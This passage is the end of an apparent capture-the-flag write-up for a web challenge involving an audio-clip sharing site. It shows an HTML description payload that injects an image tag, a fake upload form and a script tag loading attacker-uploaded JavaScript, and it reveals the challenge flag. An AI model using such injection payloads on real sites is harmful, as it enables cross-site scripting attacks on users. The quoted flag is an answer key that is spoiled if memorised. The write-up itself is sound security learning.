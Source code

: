 ```js
    }, 1000);

}
```

The description:

```html
Has anyone else played "Toaster Wars"? Share me clips with "spatulate" in the description and I'll give them a listen!
Spatulate
<img src="https://example.com.tw/?xsssuccess"></img>
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
        <div class="box">
            <label class="title">Title</label>
            <input type="text" name="title" id="title-input" placeholder="Enter a title" value="a"/>
        </div>
        <div class="box">
            <label class="title">Description</label>
            <textarea type="text" name="description" id="description-input" placeholder="Enter a description" value="b"></textarea>
        </div>
        <div class="box">
            <label class="title">Clip</label>
            <div class="options">
                <div id="upload-option">
                    <h3>Upload a File</h3>
                    <h4>You can upload .wav/wave, .mp3, .ogg, .webm</h4>
                    <label for="audiofile" class="file-label">Upload a file</label>
                    <input type="file" name="audiofile" id="audiofile" accept="audio/*" />
                </div>
                <div class="or"></div>
                <div id="record-option">
                    <h3>Record a Clip</h3>
                    <h4>Recent Chrome or Firefox only</h4>
                    <button type="button" id="audio-record">Record</button>
                    <audio id="record-playback" controls></audio>
                </div>
            </div>
        </div>
        <input type="submit" name="submit" value="submit" />
    </form>
<script src="[uploaded_js_url]"></script>
```

and listen carefully, "the flag is PCTF open bracket not underscore so underscore smart close bracket."

We got the flag:`PCTF{not_so_smart}`.

This is a very interesting and great challenge:) 
You can check out the author's setup album [here](https://imgur.com/a/lrIQto5).
